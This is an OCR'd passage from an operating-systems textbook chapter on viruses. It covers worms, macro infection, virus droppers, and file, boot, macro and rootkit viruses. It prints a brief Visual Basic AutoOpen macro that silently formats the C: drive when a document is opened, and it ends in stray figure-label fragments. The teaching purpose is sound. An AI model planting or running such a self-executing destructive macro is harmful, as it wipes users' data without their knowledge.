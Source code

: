 Viruses are usually borne via spam e-mail and phishing attacks. They can also spread when users download viral programs from Internet file-sharing services or exchange infected disks. Adistinction can bemade between viruses, which require human activity, and **worms**, which use a network to replicate without any help from humans.  



For an example of how a virus “infects” a host, consider Microsoft Office files. These files can contain **_macros_** (or Visual Basic programs) that programs in the Office suite (Word, PowerPoint, and Excel) will execute automatically. Because these programs run under the user’s own account, the macros can run largely unconstrained (for example, deleting user files at will). The following code sample shows how simple it is to write a Visual Basic macro that a worm could use to format the hard drive of a Windows computer as soon as the file containing the macro was opened:

Sub AutoOpen() Dim oFS

Set oFS = CreateObject(”Scripting.FileSystemObject”) vs = Shell(”c: command.com /k format c:”,vbHide)

End Sub

Commonly, the worm will also e-mail itself to others in the user’s contact list. How do viruses work? Once a virus reaches a target machine, a program

known as a **virus dropper** inserts the virus into the system. The virus dropper is usually a Trojan horse, executed for other reasons but installing the virus as its core activity. Once installed, the virus may do any one of a number of things. There are literally thousands of viruses, but they fall into several main categories. Note that many viruses belong to more than one category.

• **File**. A standard file virus infects a system by appending itself to a file. It changes the start of the program so that execution jumps to its code. After it executes, it returns control to the program so that its execution is not noticed. File viruses are sometimes known as parasitic viruses, as they leave no full files behind and leave the host program still functional.

• **Boot**. A boot virus infects the boot sector of the system, executing every time the system is booted and before the operating system is loaded. It watches for other bootable media and infects them. These viruses are also known as memory viruses, because they do not appear in the file system. Figure 16.5 shows how a boot virus works. Boot viruses have also adapted to infect firmware, such as network card PXE and Extensible Firmware Interface (EFI) environments.

• **Macro**. Most viruses are written in a low-level language, such as assembly or C. Macro viruses are written in a high-level language, such as Visual Basic. These viruses are triggered when a program capable of executing the macro is run. For example, a macro virus could be contained in a spreadsheet file.

• **Rootkit**. Originally coined to describe back doors on UNIX systemsmeant to provide easy root access, the term has since expanded to viruses and malware that infiltrate the operating system itself. The result is complete system compromise; no aspect of the system can be deemed trusted.When malware infects the operating system, it can take over all of the system’s functions, including those functions that would normally facilitate its own detection.  



whenever new removable R/W disk is installed, it infects

that as well

it has a logic bomb to wreak havoc at a
